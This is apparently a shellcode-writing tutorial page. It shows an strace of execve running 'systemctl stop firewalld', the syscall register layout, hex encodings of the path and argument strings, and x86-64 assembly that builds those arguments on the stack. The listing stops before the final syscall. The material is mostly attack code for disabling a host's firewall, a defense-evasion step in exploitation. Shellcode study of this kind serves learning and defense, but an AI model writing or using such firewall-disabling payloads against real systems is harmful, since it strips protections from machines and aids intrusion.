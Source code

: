 ```
execve("/usr/bin/systemctl", ["systemctl", "stop", "firewalld"], 0x7ffce10e22a0 /* 53 vars */) 
```

| rax  |         rdi          |                rsi                 | rdx  |
| :--: | :------------------: | :--------------------------------: | :--: |
|  59  | '/usr/bin/systemctl' | ["systemctl", "stop", "firewalld"] | NULL |

/usr/bin     	6e69622f7273752f			nib/rsu/

/systemc		636d65747379732f			cmetsys/

tl					0000000000006c74			000000lt

stop   		706f7473

firewall		6c6c617765726966    

d				64

```
section .text
	global _start
         
_start:
    xor rbx,rbx
    ;push rbx 
    add  rbx,0x6c74				;000000lt
    push rbx
    mov rbx,0x636d65747379732f ;cmetsys/
    push rbx
    mov rcx,0x6e69622f7273752f  ;nib/rsu/
    push rcx
    mov rdi,rsp				;rdi='/usr/bin/systemctl00000000'
    
    
    xor rbx,rbx
    ;push rbx
    add rbx,0x6c				;0000000l
    push rbx
    mov rbx,0x74636d6574737973	;tcmetsys
    push rbx					
    mov rbx,rsp					;rbx=[systemctl]
    
    
    xor rax,rax	
    ;push rax
    add rax,0x706f7473			;0000pots
    push rax					
    mov rcx,rsp					;rcx=[stop]
    
    xor rax,rax
    ;push rax
    add rax,0x64			
    push rax					;d
    mov rax,0x6c6c617765726966	;firewall
   	push rax
   	mov rdx,rsp					;rdx=[firewalld]
   	
   	xor rax,rax
    push rax
    push rdx
    push rcx
    push rbx
    mov rsi,rsp
   
	xor rax,rax
```